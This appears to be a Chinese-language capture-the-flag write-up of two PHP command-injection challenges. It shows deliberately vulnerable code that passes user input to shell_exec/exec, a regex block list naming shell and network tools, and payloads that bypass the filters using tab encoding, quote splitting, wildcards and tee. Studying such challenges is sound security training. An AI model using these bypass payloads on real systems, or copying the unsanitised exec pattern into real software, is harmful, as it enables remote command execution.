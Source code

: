 cookie传值admin=1，得到关键文件`rasalghul.php`，访问之

```php
# rasalghul.php
<?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?>
```

过滤了空格，用%09（tab）

```
url=cat%09/flllllaaaaaaggggggg
```

### finalrce

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['url']))
{
    $url=$_GET['url'];
    if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
    {
        echo "Sorry,you can't use this.";
    }
    else
    {
        echo "Can you see anything?";
        exec($url);
    }
}
```

过滤了很多，这题比较有意思

单引号绕过关键词过滤，用`|`和`tee`把命令执行结果传入txt文件里，再访问查看

cat flag的时候发现不行，原来是过滤了la
用占位符`?`来替代一位即可

payload：

```
?url=l''s / | tee a.txt
```
